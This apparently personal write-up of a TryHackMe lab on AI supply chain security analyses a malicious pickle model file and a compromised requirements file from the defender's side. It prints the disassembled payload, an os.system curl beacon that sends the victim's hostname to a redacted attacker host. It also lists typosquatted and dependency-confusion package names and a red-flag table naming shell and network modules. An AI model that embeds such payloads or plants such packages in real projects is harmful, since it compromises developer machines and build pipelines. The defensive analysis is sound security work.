









# Exercise 26 — AI Supply Chain Attack Analysis

**Date:** 24/04/2025
**Category:** Malware Analysis / Threat Intelligence
**Tools:** Python pickletools, pip-audit, Linux CLI
**Platform:** TryHackMe — AI Supply Chain Security Lab
**Environment:** TryHackMe AttackBox (analyst@tryhackme-2204)

---

## Objective

Investigate a simulated AI supply chain compromise affecting a fictional company called TryTrainMe. Identify malicious payloads embedded in a Python pickle model file and detect dependency confusion and typosquatting attacks in a compromised `requirements.txt` file — without executing any malicious code.

---

## Background

AI supply chain attacks exploit the trust developers place in third-party model files and package dependencies. Two primary vectors exist:

**Malicious model files** — Python pickle files (`.pkl`) used to serialise machine learning models can embed arbitrary executable code. When a developer calls `torch.load()` or `pickle.load()`, any embedded payload executes immediately, before the model is even used. The developer has no visible indication this has happened.

**Dependency confusion and typosquatting** — When a project uses private internal packages alongside public PyPI packages, an attacker can register the same internal package name on public PyPI with a higher version number. Because pip installs the highest available version by default, the attacker's package wins silently. Typosquatting is a related technique: registering slight misspellings of popular packages and waiting for developers to make a typing error.

This exercise covers both vectors, mirroring real-world incidents including Alex Birsan's 2021 dependency confusion research, which achieved code execution on systems at Apple, Microsoft, and PayPal and earned over $130,000 in bug bounties.

---

## Lab Setup

The lab provides a pre-configured directory at `/opt/supply-chain/` containing:
- `models/` — a suspicious model (`code_reviewer.pkl`) and a clean baseline (`code_reviewer_v1.pkl`)
- `dependencies/` — a compromised (`requirements_external.txt`) and a clean (`requirements_internal.txt`) requirements file
- `tools/` — a helper analysis script (`safe_analysis.py`)
- `incident/` and `audit/` — supporting files for context

### Screenshot — Lab Directory Structure


---

## Part A — Examine the Suspicious Model File

The first step is checking basic file properties without opening or executing anything.

```bash
ls -lh /opt/supply-chain/models/code_reviewer.pkl \
        /opt/supply-chain/models/code_reviewer_v1.pkl
```

| Flag | Meaning |
|------|---------|
| `-l` | Long format — shows permissions, owner, size |
| `-h` | Human-readable file sizes (KB, MB) |

Output showed a critical discrepancy:

```
-rwxr-xr-x 1 analyst analyst 8.1M  code_reviewer.pkl
-rwxr-xr-x 1 analyst analyst 2.0M  code_reviewer_v1.pkl
```

The suspicious model is **four times larger** than the clean baseline. Size alone is not proof of malice, but it is an immediate red flag worth investigating further.

Running `file` on both confirmed both show as generic `data` — the file command cannot distinguish a malicious pickle from a clean one. Deeper inspection is required.

---

## Part B — Inspect With pickletools (Safe Disassembly)

Python includes a built-in module called `pickletools` that disassembles pickle files without executing them. This is the safe method for static analysis.

> **Critical rule:** Never use `pickle.load()` on an untrusted file. It executes any embedded code immediately upon loading.

```bash
python3 -m pickletools /opt/supply-chain/models/code_reviewer.pkl 2>&1 | head -30
```

| Component | Meaning |
|-----------|---------|
| `python3 -m pickletools` | Run pickletools as a module (safe — disassembles only) |
| `2>&1` | Redirect stderr to stdout so errors appear in pipe |
| `head -30` | Show only the first 30 lines — payload is at the top |

Output:

```
 0: \x80 PROTO      4
 2: \x95 FRAME      72
11: \x8c SHORT_BINUNICODE 'os'
15: \x94 MEMOIZE    (as 0)
16: \x8c SHORT_BINUNICODE 'system'
24: \x94 MEMOIZE    (as 1)
25: \x93 STACK_GLOBAL
26: \x94 MEMOIZE    (as 2)
27: \x8c SHORT_BINUNICODE 'curl http://[REDACTED]/beacon?host=$(hostname)'
77: \x94 MEMOIZE    (as 3)
78: \x85 TUPLE1
79: \x94 MEMOIZE    (as 4)
80: R    REDUCE
81: \x94 MEMOIZE    (as 5)
82: .    STOP
```

### Screenshot — pickletools Disassembly Output


---

## Part C — Identify the Red Flags

Walking through the disassembly output line by line:

| Line | Pattern | Why It Is Suspicious |
|------|---------|----------------------|
| 11 | `SHORT_BINUNICODE 'os'` | The `os` module provides OS-level functions — never needed in a model file |
| 16 | `SHORT_BINUNICODE 'system'` | `os.system` executes arbitrary shell commands |
| 25 | `STACK_GLOBAL` | Pickle opcode that resolves and calls a Python function |
| 27 | `curl http://[REDACTED]/beacon?host=$(hostname)` | Outbound beacon to an attacker-controlled domain, exfiltrating hostname |
| 80 | `REDUCE` | Pickle opcode that executes the function with the provided arguments |

The payload is a classic C2 beacon: upon loading, the model calls `os.system("curl http://[REDACTED]/beacon?host=$(hostname)")`, sending the victim machine's hostname to an attacker-controlled server.

General red flags to check in any pickle file:

| Pattern | Concern Level | Legitimate Use? |
|---------|--------------|-----------------|
| `os` | Critical | Almost never in a model file |
| `system`, `popen` | Critical | Never |
| `subprocess` | Critical | Never |
| `socket` | Critical | Never |
| `eval`, `exec` | Critical | Never |
| `curl`, `wget` | Critical | Never |
| `STACK_GLOBAL` | Moderate | Common in legitimate pickles — check what it resolves |
| `REDUCE` | Moderate | Common in legitimate pickles — check context |

### Screenshot — Red Flags Reference Table


---

## Part D — Compare With the Clean Baseline Model

Running the same disassembly on the clean model:

```bash
python3 -m pickletools /opt/supply-chain/models/code_reviewer_v1.pkl 2>&1 | head -30
```

Output showed a fundamentally different structure:

```
11: \x8c SHORT_BINUNICODE '__main__'
22: \x8c SHORT_BINUNICODE '_Room2_BenignModel'
43: \x93 STACK_GLOBAL
45: )    EMPTY_TUPLE
46: \x81 NEWOBJ
51: \x8c SHORT_BINUNICODE 'weights'
64: G    BINFLOAT  0.0
...
```

Both files use `STACK_GLOBAL`, but the clean model resolves it to `__main__._Room2_BenignModel` — a standard class reconstruction. The rest of its content is data: dictionaries, lists, and floating-point model weights. No references to `os`, `system`, or any external URLs.

`STACK_GLOBAL` alone is not a red flag. The question is always: *what does it resolve to?*

### Screenshot — Clean Model Comparison


---

## Part E — Safe Analysis Script

The lab included a structured helper script for a cleaner summary output:

```bash
python3 /opt/supply-chain/tools/safe_analysis.py /opt/supply-chain/models/code_reviewer.pkl
```

Output:

```
=== Pickle Safety Analysis ===
File: /opt/supply-chain/models/code_reviewer.pkl
Size: 8.4 MB

Dangerous opcodes found:
  [CRITICAL] STACK_GLOBAL: os.system
  [CRITICAL] REDUCE: executes os.system with arguments

Suspicious strings:
  [CRITICAL] 'curl http://[REDACTED]/beacon?host=$(hostname)'

Verdict: UNSAFE - Contains executable code targeting os.system
```

### Screenshot — Safe Analysis Script Output


---

## Part F — Reconstruct the Attack Flow

Based on the analysis, the full attack chain at TryTrainMe:

| Step | Action | Actor |
|------|--------|--------|
| 1 | Created a malicious pickle with a `REDUCE` payload calling `os.system` | Attacker |
| 2 | Uploaded to Hugging Face as a legitimate-looking model card | Attacker |
| 3 | ML engineer searched Hugging Face for a code review model | ML Engineer |
| 4 | Downloaded `code_reviewer.pkl` based on the professional presentation | Engineer |
| 5 | Called `torch.load('code_reviewer.pkl')` to integrate into the pipeline | Engineer |
| 6 | `REDUCE` payload fired: `curl http://[REDACTED]/beacon?host=$(hostname)` | Automatic |
| 7 | Attacker received beacon and established persistent access | Attacker |

The entire compromise happened in seconds. The engineer believed they were loading a model.

```
Malicious model uploaded to Hugging Face
    → Developer downloads and loads with torch.load()
        → REDUCE opcode fires os.system()
            → Outbound curl beacon to C2
                → Attacker receives hostname → establishes access
```

### Screenshot — Attack Flow Reconstruction


---

## Part G — Examine Suspicious Dependencies

Model files are not the only attack surface. The lab also provided a compromised `requirements.txt` to analyse.

```bash
cat /opt/supply-chain/dependencies/requirements_external.txt
```

Output:

```
torch==2.1.0
transformers==4.35.0
numppy==1.24.0
reqeusts==2.31.0
safetensors==0.4.0
accelerate==0.24.0
internal-ml-utils==99.0.0
```

### Screenshot — Suspicious Requirements File


Comparing against the clean internal requirements file:

```bash
cat /opt/supply-chain/dependencies/requirements_internal.txt
```

Output:

```
torch==2.1.0
transformers==4.35.0
numpy==1.24.0
requests==2.31.0
safetensors==0.4.0
accelerate==0.24.0
```

Three suspicious entries identified:

| Package | Issue | Attack Type |
|---------|-------|-------------|
| `numppy` | Misspelling of `numpy` | Typosquatting |
| `reqeusts` | Misspelling of `requests` | Typosquatting |
| `internal-ml-utils==99.0.0` | Unusually high version number | Dependency confusion |

The dependency confusion attack works because pip installs the highest available version across all configured indices. If `internal-ml-utils` exists only on a private internal registry, and an attacker registers the same name on public PyPI with version `99.0.0`, pip installs the attacker's package — silently, with no error, and no indication to the developer.

This technique was demonstrated by Alex Birsan in 2021 against Apple, Microsoft, and PayPal, earning over $130,000 in bug bounties.

### Screenshot — Clean vs Compromised Requirements Comparison


---

## Part H — Run pip-audit

```bash
pip-audit -r /opt/supply-chain/dependencies/requirements_external.txt 2>&1
```

| Flag | Meaning |
|------|---------|
| `-r` | Read requirements from a file rather than scanning installed packages |
| `2>&1` | Merge stderr into stdout so errors are visible |

Output:

```
ERROR: Could not find a version that satisfies the requirement numppy==1.24.0
ERROR: No matching distribution found for numppy==1.24.0
```

pip-audit failed because `numppy` is not registered on PyPI — meaning the attacker had not yet registered it. In a real attack, the attacker registers the package first, so `pip install` succeeds silently with no error. The analyst reviewing the file before installation is exactly the control that catches what the developer would have missed.

### Screenshot — pip-audit Output


---

## Attack Chain Summary

```
Attacker registers malicious package on PyPI (typosquatted / dependency confusion)
    → Developer runs pip install -r requirements.txt
        → pip resolves highest version → installs attacker package
            → Malicious code executes at import time
                → Attacker achieves code execution on developer machine / CI pipeline

Parallel vector:
Attacker uploads malicious .pkl to public model hub
    → Developer calls torch.load()
        → REDUCE payload fires → C2 beacon sent
            → Attacker establishes persistent access
```

---

## Real-World Relevance

AI adoption is accelerating faster than security practices can keep pace. Development teams download pre-trained models from public hubs and pull packages from PyPI with minimal scrutiny — often with no more verification than a professional-looking model card or a high download count.

The pickle format is the dominant serialisation format in the Python ML ecosystem. Every time a developer calls `torch.load()` or `pickle.load()` on a file from an unverified source, they are executing arbitrary code as themselves. This is not a theoretical risk — it is a design property of the format.

Supply chain attacks are increasingly common because they bypass perimeter defences entirely. The compromise happens before the code ever reaches production.

---

## Analyst View

From a SOC analyst perspective, this incident represents a successful supply chain intrusion via a poisoned ML model. The initial access vector — a C2 beacon triggered by `torch.load()` — would appear in network logs as an outbound HTTP GET request to an unfamiliar domain, potentially with a `?host=` query parameter. Without context, this could easily be dismissed as routine developer traffic.

Key observations:
- The beacon fired at the moment the model was loaded, not at runtime or deployment — this is a developer workstation or CI/CD pipeline compromise, not a production server hit
- The `$(hostname)` in the curl command means the attacker immediately knows which machine is compromised and can prioritise targets
- A compromised CI/CD pipeline is particularly severe: every build becomes a potential delivery mechanism for further payloads

---

## Indicators / IOCs

| Indicator | Type | Value | Severity |
|-----------|------|-------|----------|
| `code_reviewer.pkl` | Malicious file | SHA256 to be recorded at time of incident | Critical |
| Outbound HTTP GET | Network | `http://[REDACTED]/beacon?host=$(hostname)` | Critical |
| Pickle opcode | Static | `STACK_GLOBAL` resolving to `os.system` | Critical |
| `numppy==1.24.0` | Dependency | Typosquat of `numpy` | High |
| `reqeusts==2.31.0` | Dependency | Typosquat of `requests` | High |
| `internal-ml-utils==99.0.0` | Dependency | Impossible internal version — dependency confusion | High |
| File size delta | Heuristic | Suspicious model 4x larger than clean baseline | Medium |

---

## Escalation / Remediation

In a real SOC response to this incident:

1. **Immediate:** Isolate the affected developer workstation from the network. The C2 beacon means the attacker already knows the host exists — assume follow-on access attempts are inbound.
2. **Short-term:** Audit all recently downloaded model files across the development team. Check for outbound connections to unfamiliar domains around the time of any `torch.load()` or `pickle.load()` calls.
3. **Investigation:** Pull DNS and proxy logs for the beacon domain. Determine whether any follow-on commands were received after the initial beacon.
4. **Remediation:** Replace pickle-based model serialisation with `safetensors` format, which cannot embed executable code by design.
5. **Prevention:** Implement `pip-audit` in CI/CD pipelines. Pin all package hashes in `requirements.txt` using `pip-compile --generate-hashes`. Use a private package mirror and block direct PyPI access from build agents.
6. **Process:** Establish a model verification policy requiring SHA256 hash verification of any downloaded model against a vendor-provided manifest before loading.

---

## Recommendation

- **Never call `pickle.load()` or `torch.load()` on a file from an unverified source.** The format executes code by design. Use `pickletools` for static inspection first, or prefer `safetensors` format which is data-only.
- **Review `requirements.txt` files before running `pip install`.** Check for misspellings of common packages and unrealistically high version numbers on internal package names — both are indicators of supply chain attack.
- **Run `pip-audit` as part of CI/CD.** Automated dependency scanning catches known-vulnerable packages before they reach production.
- **Treat model hubs the same as package registries.** Download counts and professional model cards are not security controls. Verify SHA256 hashes against trusted sources before loading any external model file.
- **Log all outbound HTTP/HTTPS from developer workstations and build agents.** A C2 beacon is only detectable after the fact if you have the network logs to review.
- **Prefer hash-pinned dependencies.** Use `pip-compile --generate-hashes` to lock both the package name and its content hash, making silent substitution impossible.
